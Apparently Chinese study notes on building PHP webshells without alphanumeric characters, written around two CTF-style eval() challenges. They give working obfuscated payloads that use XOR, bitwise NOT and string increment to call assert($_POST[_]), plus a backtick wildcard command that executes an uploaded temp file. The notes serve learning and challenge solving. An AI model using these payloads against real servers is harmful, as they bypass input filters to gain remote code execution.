


# 运算符

## 参考

- https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

- https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

- https://www.php.net/manual/zh/language.operators.bitwise.php

- http://php.net/manual/zh/language.operators.increment.php

## 前言

通过phithon师傅的文章整理学习PHP运算符中的Trick。主要通过两段代码进项学习~，其中也包括了一些`Linux`下的一些Trick。

## 代码1

```php
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
  eval($_GET['shell']);
}
```

思路是，将非字母、数字的字符经过各种变换，最后能构造出a-z中任意一个字符。然后再利用PHP允许动态函数执行的特点，拼接处一个函数名，如“assert”，然后动态执行之即可。

#### 利用字符串异或（PHP5

代码如下：

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```

结果

#### 利用字符串异或（PHP5

利用UTF-8编码的某个汉字，并将其中某个字符取出来，比如`'和'{2}`的结果是`"\x8c"`，其取反即为字母`s`



随便选取一篇文章，写脚本跑一下得到如下：

```php
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});

$_=$$_____;
$____($_[$__]);
```

以上还利用了PHP的弱类型特性。因为要获取`'和'{2}`，就必须有数字2。而PHP由于弱类型这个特性，true的值为1，故`true+true==2`，也就是`('>'>'<')+('>'>'<')==2`。

结果：


#### 递增／递减运算符（PHP5

利用数组转化为字符串其值为`Array`，获取字母`A`，通过PHP的`'a'++ => 'b'`特性，可以获取所有的字母。其次，PHP的变量名不区分大小写（区分大小写，也可以获取`Array`的小a



 利用代码如下：

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

结果如下：


## 代码2

```php
<?php
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>35){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){
        die("NO.");
    }
    eval($code);
}else{
    highlight_file(__FILE__);
}
```

这道题目多了两个限制

- 长度限制为`<=35`
- 除了数字和字母，也不能包括`_`和`$`

#### 取反（PHP7

PHP7前是不允许用`($a)();`这样的方法来执行动态函数的，但PHP7中增加了对此的支持。所以，我们可以通过`('phpinfo')();`来执行函数，第一个括号中可以是任意PHP表达式。如下：

```php
<?php
(~urldecode('%8F%97%8F%96%91%99%90'))();
?>
```

#### Shell（PHP5

利用Linux的通配符，`.  xx`执行脚本的特性，以及PHP使用反引号执行命令的特点，得到如下：

```php
?><?=`. /???/????????[@-[]`;?>
```

结果：


